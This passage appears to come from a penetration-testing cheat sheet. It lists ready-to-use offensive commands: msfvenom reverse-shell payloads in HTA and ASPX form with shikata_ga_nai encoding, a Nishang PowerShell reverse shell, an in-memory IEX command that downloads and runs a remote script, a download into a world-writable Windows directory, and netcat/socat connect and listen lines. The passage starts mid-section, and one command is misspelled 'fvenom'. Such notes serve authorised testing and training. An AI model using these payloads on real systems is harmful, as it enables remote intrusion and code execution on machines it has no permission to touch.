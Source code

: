     msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh -o evil.hta
    # ASPX (IIS for example if PUT is allowed)
    fvenom -p windows/shell_reverse_tcp -f aspx LHOST=$(vpnip) LPORT=1234 -o shell.aspx
    ```
    
    - `-e <ENCODER> -i <NUMBER OF ITERATIONS>`
        - for instance ⇒ `-e x86/shikata_ga_nai -i 9`

## `PowerShell`

- Reverse shell using [Nishang](https://github.com/samratashok/nishang#nishang) ⬇️
    
    ```bash
    cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
    echo "" >> shell.ps1
    echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 443" >> shell.ps1
    ```
    
- Execute a remote script in memory (do not write to disk):
    
    ```powershell
    powershell -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/shell.ps1');"
    ```
    
- Download a file (alternative to `wget`):
    
    ```powershell
    powershell -command "(new-object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$FILE', 'c:\Windows\System32\spool\drivers\color\$FILE')"
    ```
    
    > `c:\Windows\System32\spool\drivers\color\` is a world-writable directory.
    
- Run as Administrator:
    
    ```powershell
    powershell.exe Start-Process cmd.exe -Verb runAs
    ```
    

## 😺 `netcat`, `socat` and `powercat`

> [https://blog.gentilkiwi.com/programmes/socat](https://blog.gentilkiwi.com/programmes/socat)
 
- Remote connection (Client)
    
    ```bash
    nc $IP $PORT
    socat - TCP4:$IP:$PORT
    ```
    
- Listening for connections (Server)
    
    ```bash
    nc -lvnp $PORT
    socat TCP4-LISTEN:$PORT STDOUT
    ```
    